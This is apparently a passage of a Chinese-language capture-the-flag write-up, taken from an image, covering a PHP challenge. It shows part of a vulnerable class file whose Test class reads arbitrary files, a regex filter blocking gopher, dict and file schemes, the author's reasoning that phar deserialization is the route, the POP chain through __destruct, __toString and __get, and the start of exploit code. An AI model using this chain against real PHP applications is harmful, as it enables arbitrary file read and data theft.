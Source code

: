 	    }
	    public function __wakeup()
	    {
	        if(preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source)) {
	            echo "hacker~";
	            $this->source = "index.php";
	        }
	    }
	}
	class Test
	{
	    public $file;
	    public $params;
	    public function __construct()
	    {
	        $this->params = array();
	    }
	    public function __get($key)
	    {
	        return $this->get($key);
	    }
	    public function get($key)
	    {
	        if(isset($this->params[$key])) {
	            $value = $this->params[$key];
	        } else {
	            $value = "index.php";
	        }
	        return $this->file_get($value);
	    }
	    public function file_get($value)
	    {
	        $text = base64_encode(file_get_contents($value));
	        return $text;
	    }
	}
	?> 
	```


主要就是这个class.php          
没有`unserialize`      
应该是phar了       
看一下，没过滤         

pop链      
`C1e4r->__destruct->Show->__toString->Test->__get->get()`        





	```php
	<?php
	class C1e4r
	{
	    public $test;
	    public $str;
	    public function __construct()
	    {
	        $this->str=new Show();
	    }
	}
	